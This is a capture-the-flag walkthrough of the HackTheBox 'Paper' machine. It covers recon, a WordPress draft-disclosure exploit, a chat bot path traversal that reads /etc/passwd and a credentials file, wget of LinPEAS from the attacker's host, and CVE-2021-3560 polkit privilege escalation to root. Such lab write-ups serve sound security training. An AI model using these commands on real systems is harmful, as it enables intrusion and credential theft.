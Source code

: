 ```yaml
---
title: "HackTheBox Paper Walkthrough"
date: "2022-05-26"
categories: 
  - "htb-walkthroughs"
---
```


### NMAP Scan to start off

┌──(root㉿kali)-\[~\]
└─# nmap -A 10.10.11.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-26 09:25 EDT
Nmap scan report for 10.10.11.143
Host is up (0.031s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|\_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9)
|\_http-title: HTTP Server Test Page powered by CentOS
|\_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|\_  Potentially risky methods: TRACE
|\_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9)
| http-methods: 
|\_  Potentially risky methods: TRACE
|\_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|\_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|\_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|\_  http/1.1
|\_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9
|\_ssl-date: TLS randomness does not represent time
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

We have port 80 open. We'll start off by navigating to http://10.10.11.143

[![](images/1-1024x637.png)](http://localhost/wordpress/wp-content/uploads/2022/05/1.png)

Nothing is interesting on the homepage.

Let's try running a directory search using Feroxbuster.

feroxbuster -u http://10.10.11.143 -x html json php txt

[![](images/2-1024x753.png)](http://localhost/wordpress/wp-content/uploads/2022/05/2.png)

There's a manual subdirectory, but nothing interesting was found.

Let's try intercepting the GET request using BurpSuite.

[![](images/3-1024x721.png)](http://localhost/wordpress/wp-content/uploads/2022/05/3.png)

There is information disclosure in the response.

X-Backend-Server: office.paper

We'll add the URL to our /etc/hosts and check out the link.

nano /etc/hosts

[![](images/4.png)](http://localhost/wordpress/wp-content/uploads/2022/05/4.png)

It seems office.paper is some sort of blog.

[![](images/5-1024x750.png)](http://localhost/wordpress/wp-content/uploads/2022/05/5.png)

We'll use the Wappalyzer extension to find out what technologies are running.

[![](images/6.png)](http://localhost/wordpress/wp-content/uploads/2022/05/6.png)

The site is running WordPress 5.2.3. A quick google search gets us: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts exploit. 

[https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)

The exploit is very simple. We just have to add ?static=1 to the URL.

http://office.paper/?static=1

[![](images/7-1024x839.png)](http://localhost/wordpress/wp-content/uploads/2022/05/7.png)

We got a piece of new information! 

Remember to add the new hostname chat.office.paper to your /etc/hosts/

Visiting the URL [http://chat.office.paper/register/8qozr226AhkCHZdyY](https://www.blogger.com/blog/post/edit/1821202635744511804/8903568251577251071#) gets us to some sort of chat registration.

[![](images/8-1024x889.png)](http://localhost/wordpress/wp-content/uploads/2022/05/8.png)

Create a new account and log in.

We are in the #general chat. Scroll up to find the next piece of the puzzle.

[![](images/9-1024x847.png)](http://localhost/wordpress/wp-content/uploads/2022/05/9.png)

DM recyclops with the command:

recyclops file ../../../../../../../etc/passwd

[![](images/10-1024x993.png)](http://localhost/wordpress/wp-content/uploads/2022/05/10.png)

Scrolling down we get the username dwight.

By playing around with the command "list". We discover a file in "../hubot/env".

[![](images/11.png)](http://localhost/wordpress/wp-content/uploads/2022/05/11.png)

Now we can ssh with our new credentials.

ssh dwight@10.10.11.143

[![](images/12.png)](http://localhost/wordpress/wp-content/uploads/2022/05/12.png)

There's our first user flag.

\[dwight@paper ~\]$ cat user.txt

Now we'll need to see how we can escalate local privileges to root.  Let's try running LinPEAS.

We'll host a simple python server on our host machine(kali) so we can upload linpeas.sh to our target machine.

Host:

python -m SimpleHTTPServer

Victim:

wget 10.10.14.124:8000/linpeas.sh
--2022-05-26 11:54:35--  http://10.10.14.124:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

Scrolling through LinPEAS, we find a vulnerable CVE-2021-3560.

[![](images/13-1024x652.png)](http://localhost/wordpress/wp-content/uploads/2022/05/13.png)

A quick Google search gets us a nice script on Github.

[https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh)

Just copy/paste the raw code into nano on the victim machine. 

chmod +x
./exploit.sh

You may need to run it a few times to get it to work.

Default credentials are 'secnigma:secnigmaftw'.

su - secnigma

Enter password

sudo bash

and we're root!

[![](images/14-1024x649.png)](http://localhost/wordpress/wp-content/uploads/2022/05/14.png)

cat /root/root.txt

And we're done!
